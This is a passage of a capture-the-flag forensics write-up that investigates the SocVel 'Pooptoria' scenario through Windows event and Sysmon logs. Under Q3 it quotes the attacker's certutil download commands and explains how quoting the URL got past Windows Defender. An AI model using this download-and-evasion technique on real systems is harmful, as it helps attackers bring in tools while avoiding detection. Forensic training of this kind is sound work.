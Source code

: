 # Pooptoria

## DFIR, 3000 points

### Description

The notorious threat actor Fancy Poodle has done it again! This time striking at Strikdaspoort Wastewater Treatment Plant in Pretoria, South Africa...

Do you have what it takes to solve the investigation while only using limited triage data? All before the license-dongle-wielding forensic analysts have checked their write blockers out of storage?

For more information, check the [Pooptoria scenario backstory](https://socvel.com/pooptoria.html#Pooptoria)

Author: [SocVel](https://twitter.com/socveldotcom)

### Solution

For this lab, I will explain my investigation work regarding this hack. To break down this exercise, I will focus on interesting questions asked in this SocVel's challenge. Thus, some questions might be omitted.

Most of the logs for this challenge uses the `.evtx` extension which are logs managed by Windows Event Viewer, you can get more information on [this Forensics Wiki](https://forensicswiki.xyz/wiki/index.php?title=Windows_XML_Event_Log_%28EVTX%29) or [this LogRhythm documentation](https://docs.logrhythm.com/docs/devices/ms-windows-event-log-sources/ms-windows-event-logging-xml-windows-defender/malware-detection-events-xml-logs
). In order to deal with Windows Event Log files on my Linux operating system, I converted them into XML files with a Python script `evtx_dump.py`, available in my GitHub repository [there](https://github.com/exti0p/ctf/blob/master/2021/SocVel/DFIR/evtx_dump.py).

#### Q3) What was the full command the attacker ran that led to the successful download of the archive?

After implanting a trojan (Ceprolad Trojan), the attacker indeed downloaded successfully a very particular archive, as `Administrator`, after one fail. From the `Sysmon.xml` file, the latter was blocked by Windows Defender, he tried this command at first: 
```bash
$ certutil.exe -urlcache -split -f https://download.sysinternals.com/files/Procdump.zip procdump.zip
```

After a few seconds he added quotes to the malicious URL to bypass the detection, hence, according to event record ID 11804 (`<EventRecordID>11804</EventRecordID>`), he ran this full command:

```bash
$ certutil.exe  -urlcache -split -f "https://download.sysinternals.com/files/Procdump.zip" procdump.zip
```

#### Q5) The attacker seems to have tried and failed to disable Windows Defender via the command line. What command was run on the host for this?
